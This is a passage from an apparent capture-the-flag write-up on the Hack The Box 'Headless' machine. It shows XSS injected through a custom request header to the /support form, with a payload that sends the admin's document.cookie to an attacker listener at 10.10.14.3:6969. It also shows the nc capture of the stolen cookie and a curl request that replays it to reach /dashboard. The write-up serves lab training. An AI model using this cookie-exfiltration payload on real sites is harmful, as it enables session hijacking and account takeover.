So is vulnerable to XSS and reading carefully the hacking attempt message, we can see that this request header is sent to the administrator so let's try sending a gift to the administrators.

## 3. Exploitation&#x20;

### 3.1 Stealing the Admin Cookie

First we need to intercept the same POST request made by `/support` form with BurpSuite and then add a new custom Header called Payload.

```
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://headless.htb:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://headless.htb:5000
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Payload: <script> new Image().src = "http://10.10.14.3:6969/" + document.cookie; </script>

fname=Johan&lname=Johan&email=n%40n&phone=123&message=%3Cscrip%3E
```

This payload is going to exfiltrate the administrator cookie sending a GET request to our listener so after sending the above request we should start a listener with `nc`:

```
$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.8] 38612
GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1
Host: 10.10.14.3:6969
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5000/
Connection: keep-alive
```

Now we have the administrator cookie and we can access `/dashboard` page.&#x20;

```
$ curl -X GET -I http://admin:admin@10.10.11.8:5000/dashboard -b "is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Thu, 28 Mar 2024 20:54:29 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2000
Connection: close
```
